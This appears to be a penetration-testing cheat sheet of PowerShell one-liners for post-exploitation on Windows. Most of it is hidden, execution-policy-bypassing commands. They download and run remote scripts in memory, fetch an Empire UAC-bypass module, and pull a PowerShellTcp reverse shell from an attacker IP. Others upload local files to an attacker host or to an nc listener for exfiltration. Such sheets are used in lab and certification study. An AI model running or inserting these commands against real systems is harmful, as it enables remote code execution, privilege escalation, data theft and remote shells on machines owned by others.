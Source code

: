 ## Start up WebServer

## Run script in memory:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'
```

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://LocalIPAddress:PORT/FILE'))

=========================================

# Download File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')


=========================================

# Upload File:
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://LocalIPAddress:PORT/FILE', 'LOCAL_FILENAME')

---------------
# If you can't copy over SMB
## On Local Box
nc -lnvp 443 > Out.File
## On Windows Box
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>

=========================================

## Upgrade PSH to 64-bit shell
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')

C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://192.168.119.187:80/Invoke-PowerShellTcp.ps1')

